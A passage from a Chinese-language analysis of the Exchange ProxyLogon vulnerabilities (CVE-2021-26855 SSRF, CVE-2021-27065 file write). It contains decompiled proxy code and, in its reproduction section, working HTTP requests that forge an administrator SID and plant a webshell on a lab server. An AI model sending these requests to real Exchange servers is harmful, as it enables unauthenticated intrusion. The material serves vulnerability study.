| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>``` | ```c\#<br>internal static string GenerateKerberosAuthHeader(string host, int traceContext, ref AuthenticationContext authenticationContext, ref string kerberosChallenge) {<br>    byte[] array = null;<br>    byte[] bytes = null;<br>    // ...<br>    authenticationContext = new AuthenticationContext();<br>    string text = "HTTP/" + host;<br>    authenticationContext.InitializeForOutboundNegotiate(AuthenticationMechanism.Kerberos, text, null, null);<br>    SecurityStatus securityStatus = authenticationContext.NegotiateSecurityContext(inputBuffer, out bytes);<br>    // ...<br>    string @string = Encoding.ASCII.GetString(bytes);<br>    return "Negotiate " + @string;<br>}<br>``` |

因此，代理到后端的客户端请求将添加多个 HTTP 标头供后端使用。 两个最重要的 Headers 是 `X-CommonAccessToken`，表示邮件用户的登录身份，以及 `Kerberos Ticket`，表示来自前端的合法访问。

-   Frontend Response Section

Response Section 接收来自后端的响应并决定允许哪些请求头或 cookie 发送回给前端。

##### [](#5313-backend-rehydration-module)5.3.1.3 Backend Rehydration Module

Backend 首先使用 `IsAuthenticated` 方法来检查传入的请求是否经过身份验证。然后后端会验证该请求是否存在一个名为 `ms-Exch-EPI-Token-Serialization` 的扩展权限。在默认设置下，只有 Exchange 机器帐户才具有此权限。这也是 Frontend 生成的 Kerberos Ticket 可以通过检测，但是低授权账号不能直接访问 Backend 的原因。

校验通过后，Exchange 将 HTTP 头中的 `X-CommonAccessToken` 反序列化回原始 `Access Token`，还原用户身份，然后将其放入 `httpContext` 对象中进行到 Backend 中的业务逻辑。

**Authentication\\BackendRehydrationModule.cs**

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>23<br>24<br>25<br>26<br>27<br>28<br>29<br>30<br>31<br>32<br>33<br>34<br>35<br>36<br>37<br>38<br>39<br>40<br>41<br>42<br>``` | ```c\#<br>private void OnAuthenticateRequest(object source, EventArgs args) {<br>    if (httpContext.Request.IsAuthenticated) {<br>        this.ProcessRequest(httpContext);<br>    }<br>}<br><br>private void ProcessRequest(HttpContext httpContext) {<br>    CommonAccessToken token;<br>    if (this.TryGetCommonAccessToken(httpContext, out token)) {<br>        // ...<br>    }<br>}<br><br>private bool TryGetCommonAccessToken(HttpContext httpContext, out CommonAccessToken token) {<br>    string text = httpContext.Request.Headers["X-CommonAccessToken"];<br>    if (string.IsNullOrEmpty(text)) {<br>        return false;<br>    }<br>        <br>    bool flag;<br>    try {<br>        flag = this.IsTokenSerializationAllowed(httpContext.User.Identity as WindowsIdentity);<br>    } finally {<br>        httpContext.Items["BEValidateCATRightsLatency"] = stopwatch.ElapsedMilliseconds - elapsedMilliseconds;<br>    }<br><br>    token = CommonAccessToken.Deserialize(text);<br>    httpContext.Items["Item-CommonAccessToken"] = token;<br>    <br>    //...<br>}<br><br>private bool IsTokenSerializationAllowed(WindowsIdentity windowsIdentity) {<br>   flag2 = LocalServer.AllowsTokenSerializationBy(clientSecurityContext);<br>   return flag2;<br>}<br><br>private static bool AllowsTokenSerializationBy(ClientSecurityContext clientContext) {<br>    return LocalServer.HasExtendedRightOnServer(clientContext, <br>        WellKnownGuid.TokenSerializationRightGuid);  // ms-Exch-EPI-Token-Serialization<br><br>}<br>``` |

#### [](#532-%E5%8F%97%E5%BD%B1%E5%93%8D%E7%9A%84%E7%89%88%E6%9C%AC)5.3.2 受影响的版本

-   Exchange Server 2013 < Mar21SU
-   Exchange Server 2016 < Mar21SU < CU20
-   Exchange Server 2019 < Mar21SU < CU9

#### [](#533-%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0)5.3.3 漏洞复现

##### [](#5331-cve-2021-26855---pre-auth-ssrf)5.3.3.1 CVE-2021-26855 - Pre-auth SSRF

Frontend 有 20 多个对应不同应用路径的 handler。`GetTargetBackEndServerUrl` 方法负责在静态资源处理程序中计算后端 URL。因此，该漏洞的成因为：`Microsoft.Exchange.FrontEndHttpProxy` 未有效校验 Cookie 中用户可控的 `X-BEResource` 值，后续处理中结合 .NET 的 `UriBuilder` 类特性造成 SSRF。

定位到 `Microsoft.Exchange.FrontEndHttpProxy` 相关的代码变动：



`ProxyRequestHandler` 类是 CAS 反代过程中，负责处理用户请求与后端响应的一个的组件。因为函数调用关系比较复杂，先从整体上列出从收到用户请求开始几个主线的方法调用栈。

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>``` | ```fallback<br>// Microsoft.Exchange.FrontEndHttpProxy<br>public class ProxyModule : IHttpModule<br>    public void Init(HttpApplication application)<br>        private void OnPostAuthorizeRequest(object sender, EventArgs e)<br>            protected virtual void OnPostAuthorizeInternal(HttpApplication httpApplication)<br><br>                private IHttpHandler SelectHandlerForUnauthenticatedRequest(HttpContext httpContext)<br><br>                HttpContext context = httpApplication.Context;<br>                context.RemapHandler(httpHandler);<br>``` |



当请求路径为 `/ecp/` 时，会通过 `IsResourceRequest` 方法判断文件后缀名：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>``` | ```fallback<br>// Microsoft.Exchange.FrontEndHttpProxy<br>internal class BEResourceRequestHandler : ProxyRequestHandler<br>    internal static bool CanHandle(HttpRequest httpRequest)<br>        private static string GetBEResouceCookie(HttpRequest httpRequest)<br>        internal static bool IsResourceRequest(string localPath)<br>``` |


通过判断后由 `BeginProcessRequest` 方法继续处理后续流程：

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>23<br>24<br>25<br>26<br>27<br>28<br>29<br>30<br>31<br>32<br>33<br>34<br>``` | ```c\#<br>public IAsyncResult BeginProcessRequest(HttpContext context, AsyncCallback cb, object extraData)<br>    private void InternalBeginCalculateTargetBackEnd(out AnchorMailbox anchorMailbox)<br><br>        protected override AnchorMailbox ResolveAnchorMailbox()<br>            public ServerInfoAnchorMailbox(BackEndServer backendServer, IRequestContext requestContext)<br>                public static BackEndServer FromString(string input)<br><br>        private void OnCalculateTargetBackEndCompleted(object extraData)<br>            private void InternalOnCalculateTargetBackEndCompleted(TargetCalculationCallbackBeacon beacon)<br>                private void BeginValidateBackendServerCacheOrProxyOrRecalculate()<br>                    protected void BeginProxyRequestOrRecalculate()<br>                        protected void BeginProxyRequest(object extraData)<br><br>                            protected virtual Uri GetTargetBackEndServerUrl()<br><br>                            protected HttpWebRequest CreateServerRequest(Uri targetUrl)<br>                                protected void PrepareServerRequest(HttpWebRequest serverRequest)<br><br>                                        internal static string KerberosUtilities.GenerateKerberosAuthHeader(...)<br><br>                                		private void CopyHeadersToServerRequest(HttpWebRequest destination)<br>                                            protected virtual bool ShouldCopyHeaderToServerRequest(string headerName)<br><br>                            			private void CopyCookiesToServerRequest(HttpWebRequest serverRequest)<br><br>                            			protected virtual void SetProtocolSpecificServerRequestParameters(HttpWebRequest serverRequest)<br>                            			protected virtual void AddProtocolSpecificHeadersToServerRequest(WebHeaderCollection headers)<br><br>                            private void BeginGetServerResponse()<br>                                private static void ResponseReadyCallback(IAsyncResult result)<br>                                    private void OnResponseReady(object extraData)<br>                                        private void ProcessResponse(WebException exception)<br>                                            private void CopyHeadersToClientResponse()<br>                                            private void CopyCookiesToClientResponse()<br>``` |

**ResolveAnchorMailbox**

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>``` | ```c\#<br>protected override AnchorMailbox ResolveAnchorMailbox() {<br>    HttpCookie httpCookie = base.ClientRequest.Cookies["X-AnonResource-Backend"];<br>    if (httpCookie != null) {<br>        this.savedBackendServer = httpCookie.Value;<br>    }<br>    if (!string.IsNullOrEmpty(this.savedBackendServer)) {<br>        base.Logger.Set(3, "X-AnonResource-Backend-Cookie");<br>        if (ExTraceGlobals.VerboseTracer.IsTraceEnabled(1)) {<br>            ExTraceGlobals.VerboseTracer.TraceDebug<HttpCookie, int>((long)this.GetHashCode(), "[OwaResourceProxyRequestHandler::ResolveAnchorMailbox]: AnonResourceBackend cookie used: {0}; context {1}.", httpCookie, base.TraceContext);<br>        }<br>      # -- 此处的 FromString<br>        return new ServerInfoAnchorMailbox(BackEndServer.FromString(this.savedBackendServer), this);<br>    # --<br>    }<br>    return new AnonymousAnchorMailbox(this);<br>}<br>``` |

`BackEndServer.FromString` 方法获取 Cookie 的 `X-BEResource` 值中，以 `～` 波浪线分隔开的 FQDN 和 version，而且涉及一处补丁变更：



这里的值可以由 Cookie 控制，调用 `FromString` 的 `ResolveAnchorMailbox` 方法也有补丁变更。

基本可以说明漏洞点就在这附近了。随后的 `GetTargetBackEndServerUrl` 方法就把 Fqdn 赋值给了 UriBuilder 对象 Host 属性：



|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>``` | ```c\#<br>protected virtual UriBuilder GetClientUrlForProxy()<br>{<br>	return new UriBuilder(this.ClientRequest.Url);<br>}<br>``` |

UriBuilder 是一个 .NET 类，在微软的 [Reference Source](https://referencesource.microsoft.com/#system/net/system/uribuilder.cs) 找到源码。如果传入的 Host 中存在 `:` 冒号，并且不是 `[` 开头，就用一对中括号将值包裹起来：

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>``` | ```c\#<br>public string Host {<br>    get {<br>        return m_host;<br>    }<br>    set {<br>        if (value == null) {<br>            value = String.Empty;<br>        }<br>        m_host = value;<br>        //probable ipv6 address - <br>        if (m_host.IndexOf(':') >= 0) {<br>            //set brackets<br>            if (m_host[0] != '[')<br>                m_host = "[" + m_host + "]";<br>        }<br>        m_changed = true;<br>    }<br>}<br>``` |

根据传入的 version 是否大于 Server.E15MinVersion（1941962752），将 Port 赋值为 444 或 443。最后由 Uri 属性的 get 访问器（accessor）调用 ToString 将各部分拼接还原：

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>``` | ```c\#<br>public Uri Uri {<br>    get {<br>        if (m_changed) {<br>            m_uri = new Uri(ToString());<br>            SetFieldsFromUri(m_uri);<br>            m_changed = false;<br>        }<br>        return m_uri;<br>    }<br>}<br>``` |

得到后端 URL 之后继续处理请求头，将 `GenerateKerberosAuthHeader` 方法生成的 Kerberos 票据放入 Authorization 请求头。`CopyHeadersToServerRequest` 方法会筛选出后端需要的请求头，其中 `ShouldCopyHeaderToServerRequest` 方法用来过滤一些自定义请求头：



最后 `AddProtocolSpecificHeadersToServerRequest` 方法会将序列化得到的用于标识用户身份的Token，放入 `X-CommonAccessToken` 请求头中：



相应的，后端模块会由 `AllowsTokenSerializationBy` 方法校验通常机器用户才有的 `ms-Exch-EPI-Token-Serialization` 扩展权限（验证请求由 CAS 发出），随后反序列化还原 `X-CommonAccessToken`请求头的身份标识。

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>``` | ```c\#<br>// Microsoft.Exchange.Security.Authentication<br>public class BackendRehydrationModule : IHttpModule<br>    public void Init(HttpApplication application)<br>        private void OnAuthenticateRequest(object source, EventArgs args)<br>            private void ProcessRequest(HttpContext httpContext)<br>                private bool TryGetCommonAccessToken(HttpContext httpContext, Stopwatch stopwatch, out CommonAccessToken token)<br><br>                    private bool IsTokenSerializationAllowed(WindowsIdentity windowsIdentity)<br>            			using (ClientSecurityContext clientSecurityContext = new ClientSecurityContext(windowsIdentity))<br>            			{<br>            				flag2 = LocalServer.AllowsTokenSerializationBy(clientSecurityContext);<br>            			}<br><br>                    token = CommonAccessToken.Deserialize(text);<br>                    httpContext.Items["Item-CommonAccessToken"] = token;<br>``` |

可以控制 URL 的 `Host` 部分，payload 如下：

> https://\[foo\]@example.com:443/path#\]:444/owa/auth/x.js



小结一下，Cookie 的 `X-BEResource` 值可以控制 CAS 请求的 Host，结合 UriBuilder 类特性可以构造出可控的完整 URL。

##### [](#cve-2021-27065)CVE-2021-27065

由于上面的 SSRF 漏洞，可以不受限制的访问 Backend。接下来就是寻找 RCE 进行组合攻击。在本节介绍一个 Backend 的 API：`proxyLogon.ecp` 获取 admin 权限。

`Microsoft.Exchange.Management.DDIService.WriteFileActivity` 未校验写文件后缀，可由文件内容部分可控的相关功能写入 WebShell。

`Microsoft.Exchange.Management.DDIService.WriteFileActivity` 中有一处明显的补丁变动，使得文件后缀名只能为 txt。


|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```fallback<br>private static readonly string textExtension = ".txt";<br>``` |

以 `ResetOABVirtualDirectory` 触发点为例，利用流程如下（均通过 SSRF 发起）：

-   请求 EWS，从 `X-CalculatedBETarget` 响应头获取后端域名



-   爆破邮箱用户名，请求 `Autodiscover` 获取配置中的 `LegacyDN`

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>``` | ```http<br>POST /ecp/test.js HTTP/1.1<br>Host: IP<br>User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.190 Safari/537.36<br>Accept-Encoding: gzip, deflate<br>Accept: */*<br>Connection: close<br>Cookie: X-BEResource=]@exchange.pentest.lab/autodiscover/autodiscover.xml?#~1942062522<br>Content-Type: text/xml<br>Content-Length: 343<br><br><Autodiscover xmlns="http://schemas.microsoft.com/exchange/autodiscover/outlook/requestschema/2006"><br>    <Request><br>        <EMailAddress>win7user@pentest.lab</EMailAddress><br>        <AcceptableResponseSchema>http://schemas.microsoft.com/exchange/autodiscover/outlook/responseschema/2006a</AcceptableResponseSchema><br>    </Request><br></Autodiscover><br>``` |


警告

此处要注意 XML 的 `EMailAddress` 标签，应保持在一行，否则会出现找不到邮箱的问题！

其中：

-   url 中的 `/ecp/test.js` 不是绝对的，可以是其他的路径 `/ecp/xxxxxxxx.png`
-   X-BEResource 用于代理请求，其原本格式应该是 `[fqdn]~BackEndServerVersion`，BackEndServerVersion 应该大于1941962752
-   exchange.pentest.lab:443 为目标地址

如果不需要特别指定端口号，还可以使用下面的值:

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```fallback<br>X-BEResource=exchange.pentest.lab/autodiscover/autodiscover.xml?#~1941962753<br>``` |

这样会导致以 443 端口访问`https://exchange.pentest.lab/autodiscover/autodiscover.xml?#:444/ecp/target.js`

-   由 `MAPI over HTTP` 请求引发 `Microsoft.Exchange.RpcClientAccess.Server.LoginPermException`，获取 SID

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>``` | ```http<br>POST /ecp/test.js HTTP/1.1<br>Host: IP<br>Content-Type: application/mapi-http<br>Cookie: X-BEResource=]@exchange:444/mapi/emsmdb?MailboxId=win7user@pentest.lab#~1<br>X-Requesttype: Connect<br>X-Requestid: {C715155F-2BE8-44E0-BD34-2960067874C8}:2<br>X-Clientinfo: {2F94A2BF-A2E6-4CCCC-BF98-B5F22C542226}<br>X-Clientapplication: Outlook/15.0.4815.1002<br>Content-Length: 145<br><br>/o=PentestLab/ou=Exchange Administrative Group (FYDIBOHF23SPDLT)/cn=Recipients/cn=f3151632f470447b8b05ec011f61cbff-win7user[padding]<br>``` |



警告

此处要在 LegacyDN 后面添加：`\x00\x00\x00\x00\x00\xe4\x04\x00\x00\x09\x04\x00\x00\x09\x04\x00\x00\x00\x00\x00\x00` !


-   替换尾部 RID 为 500，伪造管理员SID，由 ProxyLogonHandler 获取管理员身份 `ASP.NET_SessionId` 与 `msExchEcpCanary`：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>``` | ```http<br>POST /ecp/test.js HTTP/1.1<br>Host: IP<br>Content-Type: text/xml<br>Cookie: X-BEResource=]@exchange:444/ecp/proxyLogon.ecp#~1942062522<br>Content-Length: 79<br>msExchLogonMailbox: S-1-5-21-277752755-3920030661-3949043096-500<br><br><r at="Negotiate" ln=""><s>S-1-5-21-277752755-3920030661-3949043096-500</s></r><br>``` |



接下来可以直接用这个 SessionID 登录 ECP。在服务器 -> 虚拟目录中：


编辑虚拟目录：


重置虚拟目录：


可以看到，文件已落地：



内容为：


蚁剑连接：


## [](#%E5%8F%82%E8%80%83)参考

-   [深入 Exchange Server 在网络渗透下的利用方法](https://paper.seebug.org/775/)
-   [Abusing Exchange: One API call away from Domain Admin](https://dirkjanm.io/abusing-exchange-one-api-call-away-from-domain-admin/?from=timeline&isappinstalled=0)
-   [cve-2020-0688-Exchange-远程代码执行介绍](https://fdlucifer.github.io/2020/10/12/cve-2020-0688/)
-   [A New Attack Surface on MS Exchange Part 1 - ProxyLogon!](https://devco.re/blog/2021/08/06/a-new-attack-surface-on-MS-exchange-part-1-ProxyLogon/)
-   [ProxyLogon漏洞分析](https://hosch3n.github.io/2021/08/22/ProxyLogon%e6%bc%8f%e6%b4%9e%e5%88%86%e6%9e%90/)
-   [Exchange ProxyLogon 系列漏洞分析](https://jishuin.proginn.com/p/763bfbd5ac72)
